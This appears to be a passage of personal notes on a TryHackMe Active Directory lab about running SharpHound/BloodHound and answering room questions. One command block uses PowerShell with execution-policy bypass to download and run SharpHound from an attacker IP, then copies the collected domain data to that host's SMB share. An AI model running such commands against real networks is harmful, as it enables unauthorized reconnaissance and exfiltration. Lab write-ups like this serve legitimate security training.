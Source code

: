 Start Collector on target

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.68.167/SharpHound.ps1')
Invoke-Bloodhound -c all -zipfilename temp.zip
net use \\10.50.68.167\s /user:s s
mv 20230703053053_temp.zip \\10.50.68.167\s\
```

> Keep in mind powershel DOES NOT have `--` parameter exist

Drag and drop the zip to Bloodhound

### Questions

#### What command can be used to execute Sharphound.exe and request that it recovers Session information only from the za.tryhackme.com domain without touching domain controllers?

> [BloodHound Docs](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html)

> SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs

#### Apart from the krbtgt account, how many other accounts are potentially kerberoastable?

![](../../attachment/7a8e6d86498e8f5a4312dabf0efde37a.png)

![](../../attachment/ffca797c71cecbfa07c2070f521b9920.png)
